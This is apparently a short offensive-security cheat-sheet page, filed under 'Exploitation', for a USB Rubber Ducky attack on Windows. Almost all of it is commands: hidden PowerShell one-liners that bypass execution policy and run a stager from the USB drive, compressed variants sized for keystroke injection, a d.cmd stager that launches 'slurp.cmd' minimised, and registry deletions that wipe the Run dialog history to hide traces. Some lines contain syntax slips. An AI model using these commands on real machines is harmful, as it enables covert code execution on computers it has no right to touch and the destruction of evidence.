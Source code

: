 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight bash %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight bash %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight bash %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight bash %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
//Note: Runtime max is 260 characters - use aliases to reduce
//Note: DN is Drive Name
{% endhighlight %}

{% highlight bash %}
//Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
//65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
//Note: Runtime max is 260 characters - use aliases to reduce
//Note: DN is Drive Name
{% endhighlight %}

> **d.cmd: Stager - Executes Payload** 

{% highlight bash %}
@echo off
start /MIN slurp.cmd
@cls
@exit
{% endhighlight %}

